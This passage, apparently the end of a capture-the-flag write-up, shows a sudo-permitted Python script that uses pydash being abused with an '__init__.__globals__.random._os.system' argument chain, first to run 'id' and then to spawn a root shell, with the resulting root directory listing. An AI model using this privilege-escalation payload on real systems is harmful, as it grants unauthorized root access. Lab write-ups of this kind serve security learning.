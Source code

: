 >It uses module name like `pydash` and I searched on web and got to know about this [exploit](https://security.snyk.io/vuln/SNYK-PYTHON-PYDASH-5916518).
{: .prompt-tip }

This code requires 2 arguments so I will be using the exploit arguments like this :

```bash
╭─vic@tiny ~ 
╰─$ sudo /usr/bin/python3 /opt/car.py __init__.__globals__.random._os.system id
uid=0(root) gid=0(root) groups=0(root)
0
```
{: .nolineno}
{: .nolineno}

Now I  used the Bash command to get the shell →

```bash
╭─vic@tiny ~ 
╰─$ sudo /usr/bin/python3 /opt/car.py __init__.__globals__.random._os.system /bin/bash
root@tiny:/home/vic# whoami
root
root@tiny:/home/vic# id
uid=0(root) gid=0(root) groups=0(root)
root@tiny:/home/vic# cd ~
root@tiny:~# ls -al
total 40
drwx------  6 root root 4096 Nov 10 16:04 .
drwxr-xr-x 18 root root 4096 Jul 22 10:10 ..
lrwxrwxrwx  1 root root    9 Jun 15 06:14 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Sep 30 08:17 .bashrc
drwxr-xr-x  3 root root 4096 Sep 30 08:17 .cache
drwxr-xr-x  3 root root 4096 Oct  2 16:23 .local
drwxr-xr-x 12 root root 4096 Sep 30 08:17 .oh-my-zsh
-rw-r--r--  1 root root  162 Sep 30 08:17 .profile
-rwx------  1 root root   33 Sep 30 08:17 root.txt
drwx------  2 root root 4096 Oct  2 14:15 .ssh
-rw-r--r--  1 root root 3890 Sep 30 08:17 .zshrc
root@tiny:~#
```
{: .nolineno}
{: .nolineno}

I am Root Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }